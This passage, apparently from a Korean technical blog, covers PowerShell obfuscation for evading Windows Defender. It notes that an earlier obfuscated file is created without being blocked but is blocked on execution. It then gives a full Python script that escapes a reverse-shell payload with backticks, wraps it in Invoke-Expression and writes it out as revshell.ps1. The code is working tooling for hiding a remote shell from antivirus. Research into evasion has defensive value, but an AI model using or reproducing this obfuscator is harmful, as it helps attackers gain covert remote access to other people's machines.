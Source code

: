 난독화된 코드는 `Write-Output` 명령어를 통해 난독화된 코드가 정상적으로 복원되는 것을 확인할 수 있고, `.ps1` 파일 생성 시에도 Windows Defender에 의해 차단되지 않는 것을 확인할 수 있다. 그러나, 마찬가지로 해당 파일을 실행하면 Windows Defender에 의해 차단되는 것을 확인할 수 있다.

<br>
<br>


## Back Ticks

PowerShell에서 백틱(``` ` ```)은 이스케이프 문자로 사용되며, 이를 이용하여 난독화된 코드를 생성할 수 있다. 백틱을 이용하여 코드 내의 특수 문자를 이스케이프 처리함으로써, 코드가 정상적으로 평가되어 실행될 수 있도록 한다. 기본적인 셸 코드에 구조 상 backtick을 추가하기에 어려움이 있어, base64 인코딩을 거친 후에 backtick을 추가하는 방식으로 스크립트를 구성하였다.

<br>

```python
# back_ticks.py

import base64
import string


def back_ticks_obfuscation(revshell_code):
    revshell_code = revshell_code.replace('\n', '')
    revshell_code = revshell_code.replace('\r', '')
    revshell_code = revshell_code.replace("'", '"')

    obfuscated_code = ''
    for char in revshell_code:
        if char.lower() not in ['a', 'b', 'e', 'f', 'n', 'r', 't', 'v', 'u', ' ', '"', "'", '0'] and char in string.ascii_letters + string.digits:
            obfuscated_code += '`' + char
        else:
            obfuscated_code += char

    if obfuscated_code[0] == '`':
        obfuscated_code = obfuscated_code[1:]

    obfuscated_code = f"$str='{obfuscated_code}';Invoke-Expression $str;"

    return obfuscated_code


if __name__ == "__main__":
    with open('revshell.txt', 'r') as file:
        revshell_code = file.read()

        base64_revshell = base64.b64encode(revshell_code.encode()).decode()

        obfuscated_code = back_ticks_obfuscation(revshell_code)

        print(obfuscated_code)

        with open('revshell.ps1', 'w') as file:
            file.write(obfuscated_code)
```
